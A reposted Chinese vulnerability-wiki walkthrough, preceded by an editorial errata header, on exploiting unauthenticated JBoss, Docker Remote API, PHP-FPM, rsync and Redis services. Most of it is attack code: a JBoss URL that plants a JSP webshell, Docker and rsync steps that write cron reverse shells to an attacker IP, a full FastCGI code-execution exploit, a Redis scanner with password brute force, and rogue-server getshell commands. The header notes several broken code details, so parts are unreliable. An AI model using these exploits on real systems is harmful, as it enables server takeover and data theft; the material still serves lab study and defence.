# 常见的未授权访问漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：JBoss/Docker/FPM/rsync/Redis未认证配置合集
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：未认证暴露、弱密码认证与正常管理权限混列，能连接端口或/version/redis-cli提示符不是证明全部管理权限；JBoss4.x以下过泛，已认证部署功能不能标未授权，java -jvf打war命令错误，解码JSP中文引号不能编译；Docker远程daemon API不等于Swarm2375集群，修复应daemon TLS/授权和网络限权，rootless/权限插件下不自动宿主root，关闭容器命令缺stop
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 未认证暴露、弱密码认证与正常管理权限混列，能连接端口或/version/redis-cli提示符不是证明全部管理权限
2. JBoss4.x以下过泛，已认证部署功能不能标未授权，java -jvf打war命令错误，解码JSP中文引号不能编译
3. Docker远程daemon API不等于Swarm2375集群，修复应daemon TLS/授权和网络限权，rootless/权限插件下不自动宿主root，关闭容器命令缺stop
4. Docker Python字典反斜杠损坏，cron写每分钟却称15分钟且宿主需nc -e及对应cron目录
5. FPM现存PHP/allow_url_include前提有写，但默认9000/PEAR路径/扩展范围依发行配置，示意QUERY_STRING多问号、缺逗号，客户端send非sendall且状态字典键误用
6. rsync模块列举不证明文件访问，auth users不设置只读，禁止列举不是访问控制，17 *为每小时17分不是等待17分钟，上传脚本没设可执行位
7. Redis把未认证范围与4.x模块能力混为4.x/5.0.5以前，忽略protected-mode/ACL/禁CONFIG和模块加载、复制操作可能改写数据
8. 扫描脚本Python2且异常一概已过滤误判，仓库目录及脚本名混用多个工具，需锁版本/来源与清理恢复
9. 无各官方配置基线，一手引用主要单个FastCGI客户端

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/sscxzbICd7Coha2DLFkZMQ>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sscxzbICd7Coha2DLFkZMQ)

漏洞汇总



**jboss 未授权访问漏洞**

**漏洞描述**

    此漏洞主要是由于 JBoss 中 / jmx-console/HtmlAdaptor 路径对外开放，并且没有任何身份验证机制，导致攻击者可以进⼊到 jmx 控制台，并在其中执⾏任何功能  
    未授权访问管理控制台, 通过该漏洞, 可以后台管理服务, 可以通过脚本命令执行系统命令, 如反弹 shell,wget 写 webshell 文件

**影响版本**

    jboss 4.x 以下

**环境搭建**

    使用 docker 搭建的靶场，访问页面 your-ip:8080



**漏洞检测**



**漏洞复现**  

**1. 写入一句话木马**

```
http://ip/jmx-console//HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=August.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```

    url 中的参数: arg0 代表 war 包的名称，arg1 = 文件名称，arg2 = 文件后缀名，arg3 = 文件内容

将 arg3 的中值取出来并进行 url 解码后为

```
<% if(request.getParameter(“f”)!=null)(new java.io.FileOutputStream(application.getRealPath(“/”)+request.getParameter(“f”))).write(request.getParameter(“t”).getBytes()); %>
```

    这个语句的功能是写入文件，f = 文件名，t = 文件内容，执行后回显



    写入 1.txt 文件  

```
http://ip:8080/August/shell.jsp?f=1.txt&t=hello%20world!
```



    访问 1.txt 文件，成功写入文件，这里也可以写入一句话木拉，然后使用一句话木马管理工具进行连接

****

**2. 上传木马  
**

    1. 发现 jboss 默认页面，点击进入控制页面



    2. 点击 jboss.deployment 进入应用部署页面，如果需要登录可以尝试爆破弱口令登录 (admin/admin)



    3. 这里使用 phpstudy 搭建远程木马服务器



    4. 使用冰蝎马生成 war 包 ，将 war 包放在 /www / 目录下

```
冰蝎马生成
java -jvf shell.war shell.jsp
```



    5. 使用 addurl 参数进行木马的远程部署



    回显页面  



    6. 查看是否有部署成功，返回刚进入的 jmx-console 页面，找到 jboss.web.deployment，如下说明部署成功。如果没显示，多刷新几次页面或者等会儿，直到看到有部署的 war 包即可



    7. 访问 your-ip:8080/shell, 说明成功部署



    8. 使用冰蝎连接 默认密码为 (rebeyond)



**docker 未授权访问漏洞**

**漏洞简介**

Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。

docker swarm 是 docker 下的分布化应用的本地集群，在开放 2375 端口监听集群容器时，会调用这个 api

**漏洞成因**

```
1. dockerd -H unix:///var/run/docker. sock -H 0.0. 0.0:2375
2. docker守护进程监听在0.0.0.0，外网可访问
3.没有使用iptable等限制可连接的来源ip。
```

**漏洞检测**

    输入地址 http://your-ip:2375/version, 若能访问，证明存在未授权访问漏洞



 使用命令行获取信息 (docker 环境下)

```
docker -H tcp://192.168.1.7:2375 images                  //获取镜像信息
docker -H tcp://192.168.1.7:2375 run 28f6e2705743        //启动docker容器
docker -H tcp://192.168.1.7:2375    ps -a                //获取容器信息
docker -H tcp://192.168.1.7:2375                        //关闭容器
```



**利用方法**

```
随意启动一个容器，并将宿主机的 / 目录挂载到容器的 /mnt目录，这样就可以操作宿主机中的文件了
docker -H tcp://192.168.1.7:2375 run -it -v /:/mnt 28f6e2705743 /bin/sh

攻击机监听
root@kali:~# nc -lvvp 6666
listening on [any] 6666 ...

写入就计划任务，反弹shell
echo "* * * * * /usr/bin/nc 192.168.83.100 6666 -e /bin/sh" >> /mnt/etc/crontabs/root
```


成功反弹 shell



进入容器查看定时任务，*/15 的意思为每 15 分钟执行一次



**也可以使用工具进行反弹 shell**  

    client 改为存在漏洞的 ip 地址  
    data 将 ip 改为反弹 shell 的地址  
    定时任务每 15 分钟执行一次

```
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e 
/bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 
'rw'\}\})
```

**修复方法**

1）配置 acl，Docker Remote API 不要绑定到 0.0.0.0。  
2）修改 docker swarm 的认证方式，使用 TLS 认证。

**PHP-FPM Fastcgi 未授权访问漏洞**

**Fastcgi**

    Fastcgi 是一个通信协议，和 HTTP 协议一样，都是进行数据交换的一个通道。HTTP 协议是浏览器和服务器中间件进行数据交换的协议，浏览器将 HTTP 头和 HTTP 体用某个规则组装成数据包，以 TCP 的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以 HTTP 协议的规则打包返回给服务器。类比 HTTP 协议来说，fastcgi 协议则是服务器中间件和某个语言后端进行数据交换的协议

**PHP-FPM**

    PHP-FPM 是一个 fastcgi 协议解析器，Nginx 等服务器中间件将用户请求按照 fastcgi 的规则打包好传给 FPM。FPM 按照 fastcgi 的协议将 TCP 流解析成真正的数据。PHP-FPM 默认监听 9000 端口，如果这个端口暴露在公网，则我们可以自己构造 fastcgi 协议，和 fpm 进行通信。  
用户访问 http://127.0.0.1/index.php?a=1&b=2，如果 web 目录是 / var/www/html，那么 Nginx 会将这个请求变成如下 key-value 对：

```
{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '12345',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

    这个数组其实就是 PHP 中 $_SERVER 数组的一部分，也就是 PHP 里的环境变量。但环境变量的作用不仅是填充 $_SERVER 数组，也是告诉 fpm：“我要执行哪个 PHP 文件”。  
    PHP-FPM 拿到 fastcgi 的数据包后，进行解析，得到上述这些环境变量。然后，执行 SCRIPT_FILENAME 的值指向的 PHP 文件，也就是 / var/www/html/index.php

**security.limit_extensions 配置**

    此时，SCRIPT_FILENAME 的值就格外重要了。因为 fpm 是根据这个值来执行 php 文件的，如果这个文件不存在，fpm 会直接返回 404。在 fpm 某个版本之前，我们可以将 SCRIPT_FILENAME 的值指定为任意后缀文件，比如 / etc/passwd。但后来，fpm 的默认配置中增加了一个选项 security.limit_extensions。其限定了只有某些后缀的文件允许被 fpm 执行，默认是. php。所以，当我们再传入 / etc/passwd 的时候，将会返回 Access denied。由于这个配置项的限制，如果想利用 PHP-FPM 的未授权访问漏洞，首先就得找到一个已存在的 PHP 文件。我们可以找找默认源安装后可能存在的 php 文件，比如 / usr/local/lib/php/PEAR.php

**任意代码执行**  

    PHP.INI 中有两个有趣的配置项，auto_prepend_file 和 auto_append_file。auto_prepend_file 是告诉 PHP，在执行目标文件之前，先包含 auto_prepend_file 中指定的文件；auto_append_file 是告诉 PHP，在执行完成目标文件后，包含 auto_append_file 指向的文件。  
    那么假设我们设置 auto_prepend_file 为 php://input，那么就等于在执行任何 php 文件前都要包含一遍 POST 的内容。所以，我们只需要把待执行的代码放在 Body 中，他们就能被执行了。（当然，还需要开启远程文件包含选项 allow_url_include）  
    那么，如何设置 auto_prepend_file 的值？这又涉及到 PHP-FPM 的两个环境变量，PHP_VALUE 和 PHP_ADMIN_VALUE。这两个环境变量就是用来设置 PHP 配置项的，PHP_VALUE 可以设置模式为 PHP_INI_USER 和 PHP_INI_ALL 的选项，PHP_ADMIN_VALUE 可以设置所有选项。（disable_functions 除外，这个选项是 PHP 加载的时候就确定了，在范围内的函数直接不会被加载到 PHP 上下文中）所以，我们最后传入如下环境变量

```
{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '12345',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

**复现**

使用 exp

```
import socket
import random
import argparse
import sys
from io import BytesIO
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
 
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
 
def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')
 
def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s
 
 
class FastCGIClient:
    """A Fast-CGI Client for Python"""
 
    # private
    __FCGI_VERSION = 1
 
    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3
 
    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11
 
    __FCGI_HEADER_SIZE = 8
 
    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3
 
    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()
 
    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True
 
    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf
 
    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value
 
    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header
 
    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))
 
        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record
 
    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return
 
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
 
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
 
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
 
        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)
 
    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf
 
        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']
 
    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)
 
 
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
 
    args = parser.parse_args()
 
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

**使用**

```
使用命令执行一个默认存在的php文件
python fpm.py your-ip /usr/local/lib/php/PEAR.php
任意命令执行
python fpm.py 192.168.1.7 /usr/local/lib/php/PEAR.php -c '<?php echo `pwd`; ?>'
```





**rsync 未授权访问漏洞  
**

**漏洞简介  
**

    rsync 是 Linux 下一款数据备份工具，支持通过 rsync 协议、ssh 协议进行远程文件传输。其中 rsync 协议默认监听 873 端口，如果目标开启了 rsync 服务，并且没有配置 ACL 或 访问密码，我们将可以读写目标服务器文件。

    rsync 未授权访问带来的危害主要有两个: 一个造成了严重的信息泄露；二是上传脚本后门文件，远程命令执行

**rsync 配置文件**

    该漏洞最大的隐患在于写权限的开启，一旦开启了写权限，用户就可以利用该权限写马或者写一句话，从而拿到 shell。

    看一下配置文件的网相关选项（/etc/rsync.conf）  
    这一项 read only 表示只读，如果这一项为 no，就具有写权限了



**(使用 docker 搭建的 vulhub 靶场的 rsyncd.conf 配置文件)**



    根据以上配置文件发现，我们可以访问 path 所指定目录以外的目录，该配置还定义了一个 src 模块，路径指向根目录，而且可读可写，最重要的是没有设置用户名，如此便无需密码直接访问 rsync  

**配置参数说明**

```
motd file -> motd文件位置
log file -> 日志文件位置
path -> 默认路径位置
use chroot -> 是否限定在该目录下，默认为true，当有软连接时，需要改为fasle,如果为true就限定为模块默认目录
read only -> 只读配置（yes or no）
list=true -> 是否可以列出模块名
uid = root -> 传输使用的用户名
gid = root -> 传输使用的用户组
auth users -> 认证用户名
secrets file=/etc/rsyncd.passwd -> 指定密码文件，如果设定验证用户，这一项必须设置，设定密码权限为400,密码文件/etc/rsyncd.passwd的内容格式为：username:password
hosts allow=192.168.0.101  -> 设置可以允许访问的主机，可以是网段，多个Ip地址用空格隔开
hosts deny 禁止的主机，host的两项可以使用*表任意。
```

**利用方式**

  rsync 未授权访问漏洞只需使用 rsync 命令即可进行检测。首先使用 nmap 或其他扫描端口工具对目标进行端口扫描，当检测到目标服务器开启 873 端口后，使用 rsync 命令，查看是否能获取到模块名列表 (需要同步的目录)，然后查看模块内的文件

**使用 nmap 扫描目标系统是否开放 rsync 服务**

```
nmap -p 873 --script rsync-list-modules 192.168.1.7
```



**列出目标服务器的同步记录**

```
rsync ip::
rsync rsync://ip:873
```



**查看模块文件**

 获取到目录之后，只需在路径后添加目录名即可查看目录中的文件  
   这里查看 src 目录



**下载任意目录文件**

```
rsync -av ip::src
```

    假如下载 / etc/passwd 文件到 /opt / 目录下



    查看 passwd.txt 文件



**也可以向目标系统上传任意文件**

```
rsync -av crontab1 rsync://192.168.0.113:873/src/etc/crontab1

//rsync -av 文件路径 rsync://ip:873/目标系统文件路径
```

**反弹 shell**

    1. 下载 cron 定时任务配置文件并查看任务内容

```
rsync -av rsync://ip/src/etc/crontab crontab.txt
cat crontab.txt
```



```
//17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
//表示17分钟会启动/etc/cron.hourly目录下文件的任务
```

    2. 攻击机创建一个 shell 文件

```
touch shell
//文件写入反弹shell命令
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.1.6/4444 0>&1
```

    3. 传入 /etc/cron.hourly 目录下，写入到 cron.hourly 下文件的任务就会启动

```
rsync -av shell rsync://ip:873/src/etc/cron.hourly
```



    4. 使用 vps(windows) 监听 4444 端口，等待 17 分钟后，接收反弹的 shell



**修复建议**  

```
更改rysnc默认配置文件/etc/rsyncd.conf，添加或修改参数：
访问控制；设置host allow，限制允许访问主机的IP。
权限控制；设置auth users ，将模块设置成只读。
权限控制；设置read only，将模块设置成只读。
访问认证；设置auth、secrets，认证成功才能调用服务。
模块隐藏；设置list，将模块隐藏。
```

**Redis 未授权访问漏洞**

    redis 是一个数据库，默认端口是 6379，redis 默认是没有密码验证的，可以免密码登录操作，攻击者可以通过操作 redis 进一步控制服务器。  
    Redis 未授权访问在 4.x/5.0.5 以前版本下，可以使用 master/slave 模式加载远程模块，通过动态链接库的方式执行任意命令。

**影响版本**  

    影响版本 Redis 4.x/5.0.5 以前版本

**环境搭建**

    使用 docker 搭建的 vulhub 靶场

**漏洞检测**  

    redis 未授权批量检测工具脚本，该脚本支持弱口令检测。

```
#!/usr/bin/python2
# -*- coding: utf-8 -*-

import socket
import sys

def check(ip, port, timeout):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("INFO\r\n")
        result = s.recv(1024)
        if "redis_version" in result:
            return u"[+] IP:{0}存在未授权访问".format(ip)
        elif "Authentication" in result:
            with open('pass.txt','r') as  p:
                passwds = p.readlines()
                for passwd in passwds:
                    passwd = passwd.strip("\n")
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect((ip, int(port)))
                    s.send("AUTH %s\r\n" %(passwd))
                    # print u"[HACKING] hacking to passwd --> "+passwd
                    result = s.recv(1024)
                    if 'OK' in result:
                        return u"[+] IP:{0} 存在弱口令，密码：{1}".format(ip,passwd)
                    else:pass
        else:pass
        s.close()
    except Exception, e:
        return u"[+] IP:{0}已过滤".format(ip)
        pass

if __name__ == '__main__':
    port="6379"
    with open('IP.txt','r') as  f:
        ips = f.readlines()
        for i in ips:
            ip = i.strip("\n")
            result = check(ip,port,timeout=10)
            print(result)
```

    在该脚本同目录下新建 IP.txt 导入要检测的目标 IP，格式如:

```
192.168.126.128
192.168.126.129
192.168.126.130
192.168.126.131
...
```

    在脚本同目录下新建 pass.txt 导入弱口令字典，格式如下：

```
redis
root
oracle
password
p@ssw0rd
abc123!
admin
abc123
...
```

    使用工具检测命令

```
python redis-scan.py
```



**漏洞复现  
**

**linux 下载 redis-cli 远程连接工具**

```
wget http://download.redis.io/redis-stable.tar.gz
tar -zxvf redis-stable.tar.gz
cd redis-stable 
make     //使用make编译后进入 /src/文件夹下面 
cp src/redis-cli /usr/bin/        //拷贝文件到 /usr/bin 目录下，然后任意目录都可以使用 redis-cli 远程连接命令
redis-cli -h    // -h 后面跟ip地址
```

    使用 redis-cli 命令直接远程免密登录 redis 主机

```
# 无密码登录命令
redis-cli -h 目标主机IP
# 有密码登录命令
redis-cli -h 目标主机IP -p 端口6379 -a 登录密码
```



    如果可以连接说明存在未授权访问漏洞

**linux 安装 redis-getShell 工具**

```
git clone https://github.com/vulhub/redis-rogue-getshell.git
cd RedisModulesSDK/
make
//克隆成功后使用cd命令切换到RedisModulesSDK 使用 make 命令进行编译，编译后回到 redis-rogue-getshell/ 目录下
```



    利用此工具进行 getshell，执行任意命令

```
# 工具命令格式：
python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "要执行的命令"
# 工具命令示例：
python3 redis-master.py -r 192.168.126.130 -p 6379 -L 192.168.126.128 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
```



**利用工具下载地址** (https://github.com/n0b0dyCN/redis-rogue-server)

**最后贴一个未授权访问漏洞的利用工具** (下载地址: https://github.com/joaomatosf/jexboss/archive/master.zip)



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
